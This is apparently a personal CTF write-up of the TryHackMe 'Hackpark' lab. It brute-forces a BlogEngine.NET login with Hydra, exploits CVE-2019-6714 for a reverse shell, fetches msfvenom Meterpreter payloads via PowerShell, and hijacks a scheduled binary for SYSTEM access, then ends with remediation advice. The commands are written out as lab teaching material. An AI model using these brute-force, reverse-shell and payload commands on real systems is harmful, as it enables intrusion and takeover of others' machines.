

<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2023-01-21-hackpark.md">~/Hackpark</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat writeups/thm/hackpark.md


*https://tryhackme.com/room/hackpark*<br />
`Windows` `BlogEngine.NET` `Hydra` `CVE-2019-6714` `WindowScheduler`

<br />

## TryHackMe CTF Writeup: Hackpark
- [Summary](#summary)
- [1. Enumeration](#1-enumeration)
  - [1.1 Nmap](#11-nmap)
  - [1.2 Web Discovery (Port 80/tcp)](#12-web-discovery-port-80-tcp)
- [2. Exploitation](#2-exploitation)
  - [2.1 Hydra](#21-hydra)
  - [2.2 Initial Foothold](#22-initial-foothold)
- [3. Post Exploitation](#3-post-exploitation)
  - [3.1 Metasploit](#31-metasploit)
  - [3.2 Non-Metasploit](#32-non-metasploit)
  - [3.3 Privilege Escalation](#33-privilege-escalation)
  - [3.4 Attack Vector](#34-attack-vector)
  - [3.5 User Flag](#35-user-flag)
  - [3.6 Root Flag](#36-root-flag)
- [4. Remediation](#4-remediation)
  - [4.1 Vulnerabilities found](#41-vulnerabilities-found)
  - [4.2 Recommendations](#42-recommendations)
- [5. Conclusion](#5-conclusion)
- [References](#references)

# Walkthrough

### Summary:

We will explore the Hackpark room on TryHackMe use various methods and techniques used to exploit vulnerabilities in a Windows server running BlogEngine.NET. We will start by using Hydra to crack a password and gain access to the server, then we will exploit a known vulnerability (CVE-2019-6714) to escalate privileges and gain control of the server. We will also explore the use of WindowsScheduler to further exploit the system. 

This writeup aims to provide a comprehensive overview of the techniques used and the lessons learned while attempting to exploit the vulnerabilities in the Hackpark room.

It is worth noting that throughout the course of this engagement, the target IP underwent several changes due to technical issues and interruptions.

## 1. Enumeration 

### 1.1 Nmap:<a name="11-nmap"></a>

We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

The below scripts uses **grep** and **cut** commands to filter and extract the open ports from the output file, sorts them, and stores them in a variable called ports. It was noted that this machine does not respond to ping (ICMP), thus the `-Pn` syntax will be added.  

The second script is used to scan the open ports identified in the first script for any services running on them. It uses the Nmap command with the options `-p$ports` to scan the open ports stored in the variable.

-   **-p-**: scan all ports
-   **--min-rate**: set high scanning rate
-   **-sC**: run default nmap scripts
-   **-sV**: detect service version
-   **-oN**: write output to nmap file


We get back the following result showing that 2 ports are open:

-   **Port 80:** running Microsoft-ISS/8.5 including 6 disallowed entries per the robots.txt
-   **Port 3389**: Possible RDP attack vector

### 1.2 Web Discovery (Port 80/tcp):<a name="12-web-discovery-port-80-tcp"></a>

I decided to do some information gathering by checking the website running on port 80. After visiting the website and seeing the clown Pennywise image.


While digging deeper running **Gobuster** I found a login form at `http://10.10.36.97/Account/login.aspx?ReturnURL=/admin/`. Which is interesting, since this was also the disallowed wildcard entry enumerated via the nmap robots.txt earlier. Also note the **aspx**, a file extension used for web pages created using Microsoft's ASP.NET web framework.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-directory -u http://$IP
```

```
- /content              (Status: 301) [Size: 151] [--> http://10.10.36.97/content/]
- /scripts              (Status: 301) [Size: 151] [--> http://10.10.36.97/scripts/]
- /account              (Status: 301) [Size: 151] [--> http://10.10.36.97/account/]
- /admin                (Status: 302) [Size: 172] [--> http://10.10.36.97/Account/login.aspx?ReturnURL=/admin]
- /custom               (Status: 301) [Size: 150] [--> http://10.10.36.97/custom/]
- /Content              (Status: 301) [Size: 151] [--> http://10.10.36.97/Content/]
- /setup                (Status: 302) [Size: 174] [--> http://10.10.36.97/Account/login.aspx?ReturnUrl=%2fsetup]
- /fonts                (Status: 301) [Size: 149] [--> http://10.10.36.97/fonts/]
```

While manually trying some default credentials like admin:admin and having no easy picking there, I inspected both the login form's source code as well as the Burp Suite captured responses of the attempted logins. Remebering seeing the room instructions stated to be using Hydra to brute-force our way into the login, I gathered both the request type, URL (via source code) and viewstate (via Burp).


>A **viewstate** is a hidden form field that stores state information about the current web page, including user input. It is often used in web applications built using ASP.NET technology. It can be interesting for **brute-forcing** with **Hydra** because it can contain authentication tokens or other sensitive information that can be used to gain **unauthorized access** to a web application. 

---
## 2. Exploitation

This gave me a good starting point to spin up Hydra to gain our initial foothold. In order to use Hydra, we need to provide it with a valid login page and the necessary parameters.

### 2.1 Hydra:<a name="11-hydra"></a>

If we try a failed login, the website will typically send a response back with the failed username and password values like with the Burp Suite response we just created. We can use these values in a Hydra attack by replacing them with the ^USER^ and ^PASS^ placeholders in our Hydra command.

In some cases, the website might not send the failed login credentials back in plain text. Instead, it might use the **viewstate** technique as described above, which is a way of encoding and storing the current state of a web page. We can pass this into our Hydra command as well.

>**Note**: We replace the actual username and password values with ^USER^ and ^PASS^ placeholders in our Hydra command because Hydra uses these placeholders as variables to substitute the correct username and password combination during the brute-force attack. This way, we don't have to manually enter the username and password for each try, and Hydra can automate the process of trying different username and password combinations until it finds the correct one.

```
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz $IP http-post-form "/Account/login.aspx:__VIEWSTATE=dE8xSB9MjQVjs6ZWgFQc5cAgCEtkMzPPTlrvUqMI1HvL8ZdkQMmOlWyy8ReuAz%2FVqaVirBkfJ%2BIrHyxaiESKnB9Z2IGQ36omUDpK6ctmF3YwTzOufsUReT894g%2FBwyxIUPO5eMOe%2FN7OBOHfXFFfHeL7XxC8C5bVlf54JyWWXl1Zbm1B&__EVENTVALIDATION=MiFqLatKF0w%2FEEM6fjkc55fdkEkyCqNmM4AMSwLoIX%2FuXf46rUlr2NZuJlf7SYD5Ztt3x691PrVvq%2FkFtZHrdn7XoS400oiLvkb6rbZgs1Yrp5WaSbkm3wAlo8vyy4WjRvYGE1WGWEeajnxFK2t0PYL9Q0XRkmth7QkHs%2BtnCCCWefDu&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

- **-l**: set the username
- **-P**: specify the password list to be used
- **http-post-form**: set the target's service to be HTTP POST form
- **/Account/login.aspx**: specify the login form's path
- **Login failed**: set the string to be checked against the server's response to see if the login is successful or not


### 2.2 Initial Foothold:<a name="22-initial-foothold"></a>

After logging in with the credentials obtained through Hydra, I quickly found that the version of BlogEngine.NET installed on the target system was 3.3.6. 


To find the exploit for the vulnerability, I used the command-line tool searchsploit. Resulting into showing the exploit for CVE-2019-6714. This exploit affects BlogEngine.NET versions 3.3.6 and below, meaning the version we encountered is definitely vulnerable.


Upon reading the exploit's instructions it showed how to modify the code to include the IP address and port of my listener, as well as how to upload and run the exploit.

##### See full exploit here: https://www.exploit-db.com/exploits/46353.

This vulnerability basically allows remote code execution through a directory traversal attack, caused by an unchecked "theme" parameter that was used to override the default theme for rendering blog pages. The vulnerable code was located in the file /Custom/Controls/PostList.ascx.cs.

>In the case of CVE-2019-6714, the vulnerability allows an attacker to bypass the intended access restrictions and access files outside of the web root directory by using the "theme" parameter to specify a path traversal sequence in the URL. This allows the attacker to then upload a malicious file, PostView.ascx, to the App_Data/files directory and then execute arbitrary code on the server.

To exploit this vulnerability, we first edited the exploit adding our own listener's IP address and port.


>**See the $LHOST?** During engagements I usually write my IP address for reverse shell to a environment variable using the following command:
>
>```
>LHOST=$(ip -o addr show tun0 | grep -oP "(?<=inet\s)\d+(\.\d+){3}")
>```
>
>It does this by first checking the output of `ip -o addr show tun0`, which displays information about the **tun0** interface, typically used for **VPN connections** (TryHackMe OpenVPN in this instance). It then uses `grep` to extract the IP address from the output, storing it in the **LHOST variable**, which can then be used in other commands, such as setting up a listener, or simply echoing it via the terminal if needed.
>
>Or you could simply run `ip -o addr show tun0` instead of setting the ENV. Everyone has a preference, but for example with MSFVenom, it's quite neat.

**Back to the exploit**: I renamed the file and uploaded it as **PostView.ascx** file through the **BlogEngine.NET's file manager**. This was done by editing a post via link provided _(via **1st** counter bubble as per the screenshot below)_ and clicking on the icon that looks like an open file in the toolbar _(**2nd** counter bubble)_. Note that this file must be uploaded as **PostView.ascx**. Once uploaded _(**3rd** counter bubble)_, the file was located in the **/App_Data/files directory** _(**4th** counter bubble)_.


After initializing a listener with `rlwrap nc -nlvp 9001`, we selected the second link (../../App_Data/files) to trigger the vulnerability and gain a reverse shell as the iss apppool\blog user. The banner indicated that the target system is running Microsoft Windows [Version 6.3.9600], thus a very outdated version.

>It's worth mentioning that `rlwrap` is an useful command line utility that allows us to navigate through command history using the arrow keys.


Now that we have an initial shell on this machine as user, we can further enumerate the machine and escalate our privileges to NT AUTHORITY\SYSTEM.

---
## 3. Post Exploitation

### 3.1 Metasploit:<a name="31-metasploit"></a>

After gaining initial access to the target system, it's a good idea to create a more stable shell to avoid losing the connection to the target. We can do this by using Metasploit and generate a Windows Meterpreter payload that we can serve to the target using Python's built-in HTTP server.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=9002 -f exe > met.exe

python3 -m http.server
```

-   **-p**: specifies type of payload to generate
-   **LHOST**: set listening IP address
-   **LPORT**: set listening port
-   **-f**: specifies output format to use
-   **>**: write output to specified filename

This will create an executable file called met.exe that we can use as the payload for our Meterpreter session. Also, since it's common to find C:\Windows\Temp is world writable, we will download it to that specific folder allowing us to execute it.

Once the server is up and running, we can download the met.exe payload to the target machine using either powershell or certutil:

```
powershell -c "invoke-webrequest -Uri 'http://{$LHOST}:8000/met.exe' -OutFile 'C:\Windows\Temp\met.exe'"
```


In order to run our met.exe via Metasploit we run the following:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp 
set LHOST tun0
set LPORT 9002
run
```


With a stable connection established, I captured some basic system information using the `sysinfo` command to see what we are up against.

While our target is a Windows machine, I prefer to use regular Windows commands instead of Meterpreter's Linux-like commands, we can obtain a regular shell using the `shell` command.

### 3.2 Non-Metasploit:<a name="32-non-metasploit"></a>

Similar as before, we can generate a more stable shell using msfvenom. Instead of using a meterpreter as a listener however, we’ll use netcat. The msfvenom command is also slightly different and will be using the x64 architecture since we were able to enumerate that via the previous **meterpreter** `sysinfo` commmand.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=9002 -f exe > rev.exe
```

Once again, upload the reverse shell payload to the target's /Temp folder either via certutil or powershell and execute it manually.


### 3.3 Privilege Escalation:<a name="33-privilege-escalation"></a>

The privilege escalation for this box was not difficult as the TryHackMe task prompted to further enumerate the machine to see any abnormal services running. 

In this case, our primary goal is to gain administrative access. Before proceeding with privilege escalation, I always try retrieving the **user.txt** flag first and did find another used called **Jeff**, yet was not allowed access to his directory.

In order to scan for abnormal services running, we can automate the process by using [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)* and enumerate the entire machine to recommend potential vulnerabilities that we can exploit. 

> ***Note**: I did run Winpeas during a coffee break anyway, and amongst the information I was looking for, it also leaked some additional credentials. one could use these to log in via RDP on port 3389 (enumerated via nmap as well). This could be done via Connect via `xfreerdp /u:username /p:password /v:$IP`.
>
>

Or since we already know exactly what we need, we can run a quick manual command instead using `wmic` (Windows Management Instrumentation Command-line tool). This searches all the services that are running on the target host and identifies the ones that autostart.

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """
```

- **service**: WMI class representing a Windows service
- **get**: WMI verb to retrieve property information about WMI classes
- **|**: pipe symbol used to pass the output of the previous command into the next
- **findstr**: search for a string in a file or input/output
- **/i**: perform case-insensitive searches (so it will match "auto" and "Auto" and "AUTO", etc)
- **/v**: returns only the lines that do not contain the specified string.

**Strings specified:**
- **auto**: only show services with an automatic start mode
- **"""**: remove any lines that contain empty quotes
- **"C:\windows\\"**: exclude legitimate services and not necessarily a sign of a vulnerability (by default no service with spaces or being unquoted in this folder). The " character is used to enclose the path string and escape special characters that may be present in the path


```
winPEAS output log from earlier:    

Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services                                                                      
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running                                              
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])                                                            
    System Scheduler Service Wrapper       
```

The above winPEAS output mentioned a possible DLL hijack regarding the Splinterware software WindowsScheduler which is in a writeable folder. I also found this on Exploit-DB: [Splinterware System Scheduler Pro 5.12 - Privilege Escalation](https://www.exploit-db.com/exploits/45072).

```
Splinterware System Scheduler Pro 5.12 - Privilege Escalation

# Proof of Concept
1. Login as regular user where Splinterware System Scheduler Pro 5.12 and the service are installed 
2. Create malicious .exe with same name 'wservice.exe' that can connect back to attacking machine
3. Download malicious .exe on victim machine, and setup listener on attacking machine
4. Rename original wservice.exe file to wservice.bak, and copy malicious file to location of original   
5. wait short amount of time and check attacking machine listener
6. connection back from victim machine successful, run whoami

nt authority\system
```

### 3.4 Attack Vector:<a name="34-attack-vector"></a>

You can use sc to check the binary path of this service using the command and note it will autostart: `sc qc WindowsScheduler`:
 


Upon further exploration, we can find an interesting directory named "Events" within the SystemScheduler folder aside from the many executables (including the WService.exe). This folder is used to store logs of events and tasks scheduled in the System Scheduler software.


By analyzing the logs, we discovered that Message.exe was running as Administrator from the directory "\SystemScheduler". It appears that the application is scheduled to execute every 30 seconds, making it a viable attack vector for privilege escalation.


Now that we have successfully found an attack vector, we can proceed with exploiting the vulnerability. Since we already created a meterpreter earlier on, we temporarily rename the already existing "Message.exe" and replace it with our "met.exe" shell. Upload it again from our HTTP server and rename it as Message.exe.


After waiting for thirty seconds, we can see that we have successfully elevated our privileges to System, which means that we have full administrative access to the machine. 


As you see we have successfully elevated our privileges to System and completing the task. With these privileges, we were able to quickly find both the user.txt and root.txt flag.

### 3.5 User Flag:<a name="35-user-flag"></a>

I used the command `dir "user.txt" /s` to search for the user flag. The `/` argument searches from the top-level or root directory of the hard drive, and the `/s` argument is used to search all sub directories, making it a quick and efficient method for finding the flag.


### 3.6 Root Flag:<a name="36-root-flag"></a>

Once again I used the command `dir "*.txt" /s` to search for the root flag.



---
## 4. Remediation 

It's important to note that mitigating cybersecurity threats requires a continuous effort, and it's crucial to keep the systems up-to-date and review them regularly for new vulnerabilities. It's also essential to provide clear instructions and guidelines for the staff, and establish a plan of action in case of a security breach.

### 4.1 Vulnerabilities found:<a name="41-vulnerabilities-found"></a>

- **Weak password policy**: The password policy is weak and does not meet the minimum requirements for strong passwords.
- **Unsecured remote access**: Remote access to the network is not properly secured and can be exploited by attackers.
- **Outdated software**: The software and systems are not up-to-date, and are vulnerable to known security vulnerabilities.
Lack of access controls: The company's network and systems lack proper access controls, allowing unauthorized access to sensitive data.
- "**SeImpersonatePrivilege**" privileges were enabled as an user, indicating that Impersonation and Potato Attacks might be possible as a method for escalating privileges.
- **Unpatched vulnerabilities**: The server was found to have several unpatched vulnerabilities that could be exploited by attackers to gain unauthorized access or execute malicious code.

### 4.2 Recommendations:<a name="42-recommendations"></a>

The following tables illustrate the vulnerabilities found by impact and recommended remediations:

| Critical / C | High / H | Moderate / M | Low / L | Info / I |
|----------|------|----------|-----|-----|
| <p align="center">:red_circle: x3</p> | <p align="center">:orange_circle: x2</p> | <p align="center">:yellow_circle: x1</p> | <p align="center">:green_circle: x3</p> | <p align="center">:large_blue_circle: x2</p> |

| Finding | Severity | Recommendation |
|---------|----------|----------------|
| Outdated software (Windows) | <p align="center">:red_circle: C</p> | Upgrade to the latest version of Windows or apply the relevant security patches. |
| CVE-2019-6714 (BlogEngine.NET) | <p align="center">:red_circle: C</p> | Update to the latest version of BlogEngine.NET or apply the relevant security patch. |
| Exposed Credentials | <p align="center">:red_circle: C</p> | Cleartext credentials found in code and configuration files. Use encryption and secure storage to protect credentials. |
| Weak password policy | <p align="center">:orange_circle: H</p> | Vulnerable to Brute Force Attacks. Weak password used (only 2 numbers and 6 lower case letters). Enforce a stronger password policy (e.g. minimum length, complexity requirements, regular password rotation). |
| Potato exploit vulnerabilty | <p align="center">:orange_circle: H</p> | Apply system patching. Disable SeImpersonatePrivilege. |
| Network segmentation | <p align="center">:yellow_circle: M</p> | Implement network segmentation and isolation to limit impact of a potential compromise. |
| Permissions review | <p align="center">:green_circle: L</p> | Review permissions and roles assigned to users and groups, and limit access to sensitive data and functionality. |
| IP-based firewall | <p align="center">:green_circle: L</p> | Use a firewall to restrict access to BlogEngine.NET login portal to only trusted IP addresses. |
| Intrusion detection | <p align="center">:green_circle: L</p> | Monitor for suspicious activity and implement intrusion detection and prevention measures. |
| Open Ports | <p align="center">:large_blue_circle: I</p> | Unused open ports expose attack surface. Close unused ports to reduce attack surface. |
| Banner Grabbing | <p align="center">:large_blue_circle: I</p> | Server banner reveals software and version information. Disable server banner or customize it to prevent information disclosure. |

---
## 5. Conclusion 

Throuhout Hackpark, we learned how to perform basic penetration testing techniques to gain access to a Windows machine using information gathered from initial reconnaissance. We used tools such as Nmap, Hydra, and Metasploit to identify vulnerabilities and exploit them to gain a stable shell. Once we had a stable shell, we performed basic enumeration to gather system information, and then escalated privileges to gain full administrative access to the machine.

It's important to note that these methods should only be performed on systems that you have permission to test. Unauthorized testing is illegal and can result in serious consequences.

In conclusion, I hope this write-up has helped you understand some of the basic techniques used in penetration testing and how to identify and exploit vulnerabilities to gain access to a system.

---
## References
1. https://tryhackme.com/room/hackpark
2. https://www.exploit-db.com/exploits/46353
3. https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe
4. https://www.exploit-db.com/exploits/45072
5. https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
